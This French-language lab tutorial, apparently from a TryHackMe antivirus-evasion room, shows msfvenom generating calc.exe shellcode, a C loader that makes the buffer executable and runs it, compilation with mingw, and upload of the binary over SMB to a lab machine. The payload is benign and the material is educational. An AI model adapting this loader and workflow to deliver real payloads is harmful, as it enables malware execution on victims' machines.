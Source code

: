 # Génération et Exécution de Shellcode avec des Outils Publics

Dans cette tâche, nous allons voir comment générer et exécuter du shellcode à l'aide d'outils publics comme le framework Metasploit.

---

## Générer du Shellcode avec des Outils Publics

Le shellcode peut être généré dans un format spécifique selon le langage de programmation utilisé. Par exemple, si votre dropper (le fichier `.exe` principal) est écrit en C, il faudra générer un shellcode compatible avec ce langage.

L'avantage d'utiliser des outils publics est qu'il n'est pas nécessaire de créer un shellcode personnalisé ou d'être expert en assembleur. La plupart des frameworks C2 proposent leur propre générateur de shellcode. Cependant, ces shellcodes sont souvent connus des éditeurs d'antivirus et donc facilement détectables.

---

## Générer un Shellcode pour Exécuter `calc.exe`

Utilisons `msfvenom` sur l'AttackBox pour générer un shellcode qui lance la calculatrice Windows (`calc.exe`):

```bash
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
```

```c
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

Ce shellcode exécute la calculatrice Windows. C'est un exemple classique pour valider le fonctionnement d'une technique d'injection.

---

## Injection de Shellcode

Les attaquants injectent du shellcode dans un processus ou un thread en cours d'exécution via différentes techniques, modifiant ainsi le flux d'exécution du programme pour exécuter leur propre code.

Voici un exemple de code C utilisant le shellcode généré, qui sera injecté en mémoire et exécutera `calc.exe` :

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
    DWORD oldProtect;
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
    int (*shellcode)() = (int(*)())(void*)stager;
    shellcode();
}
```

---

## Compilation et Transfert

Pour compiler le programme sous Windows :

```bash
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Pour transférer le fichier sur la machine Windows via SMB :

```bash
user@AttackBox$ smbclient -U thm '//MACHINE_IP/Tools'
smb: \> put calc-MSF.exe
```

Le fichier sera copié dans `C:\Tools\` sur la machine Windows.

---

## Exécution et Tests

Vous pouvez tester votre payload sur la machine cible ou via le service Antivirus Check de THM à l'adresse `http://MACHINE_IP/`.

---

## Générer du Shellcode à partir de Fichiers EXE

Le shellcode peut aussi être stocké dans des fichiers `.bin` (format brut). Pour obtenir la représentation hexadécimale d'un fichier binaire, utilisez la commande `xxd -i` :

```bash
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
user@AttackBox$ file /tmp/example.bin
/tmp/example.bin: data
user@AttackBox$ xxd -i /tmp/example.bin
```

Exemple de sortie :

```c
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  // ...
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```

La sortie correspond au shellcode généré précédemment avec Metasploit.

---

N'hésitez pas à expérimenter avec différents types de shellcodes et formats proposés par Metasploit pour approfondir vos connaissances.
